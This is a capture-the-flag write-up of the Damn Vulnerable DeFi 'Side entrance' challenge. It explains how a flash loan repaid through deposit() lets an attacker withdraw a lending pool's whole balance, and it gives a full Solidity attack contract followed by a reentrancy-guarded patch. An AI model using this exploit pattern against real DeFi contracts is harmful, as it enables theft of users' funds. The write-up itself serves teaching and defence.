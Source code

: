 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Side entrance
---
```


## Description
A surprisingly simple lending pool allows anyone to deposit ETH, and withdraw it at any point in time.

This very simple lending pool has 1000 ETH in balance already, and is offering free flash loans using the deposited ETH to promote their system.

You must take all ETH from the lending pool.

## Solution
Ah nice, another flash loan contract! If the name is any indication, we'll have to enter the
contract is an unexpected way. The first thing to catch your eye should be the `deposit()`
function. Can we take out a flash loan and then use those funds to perform a deposit?

If we flash loan `X` amount and then deposit `X`, as far as the flash loan contract is
concerned, we've returned the loan (i.e. `address(this).balance >= balanceBefore`). But
we've also incremented the attacker's balance. Then we can call `withdraw` for free monies!!!

```
contract SideEntranceAttack is IFlashLoanEtherReceiver {
    SideEntranceLenderPool private pool;

    function attack(SideEntranceLenderPool _pool) external {
        pool = _pool;
        // execute() will be called by the loaner between
        // _pool.flashLoan and _pool.withdraw()
        _pool.flashLoan(address(pool).balance);
        _pool.withdraw();
        payable(msg.sender).transfer(address(this).balance);
    }

    // Called by the flash loaner
    function execute() override external payable {
        pool.deposit{value: msg.value}();
    }

    // Need this so the flash loaner doesn't revert when it tries
    // to send us ether
    receive() external payable {}
}
```

## Patched Contract
This is a classic reentrancy attack and we can fix it by making `deposit` and `flashLoan`
non-reentrant. Heck, we'll throw the modifier on `withdraw` too just for safe measure!

```
contract SideEntranceLenderPoolV2 is ReentrancyGuard {
    using Address for address payable;

    mapping (address => uint256) private balances;

    function deposit() external payable nonReentrant {
        balances[msg.sender] += msg.value;
    }

    function withdraw() external nonReentrant {
        uint256 amountToWithdraw = balances[msg.sender];
        balances[msg.sender] = 0;
        payable(msg.sender).sendValue(amountToWithdraw);
    }

    function flashLoan(uint256 amount) external nonReentrant {
        uint256 balanceBefore = address(this).balance;
        require(balanceBefore >= amount, "Not enough ETH in balance");
        
        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

        require(address(this).balance >= balanceBefore, "Flash loan hasn't been paid back");        
    }
}
```

You can verify yourself that the exploit no longer works with `SideEntranceLenderPoolV2`!
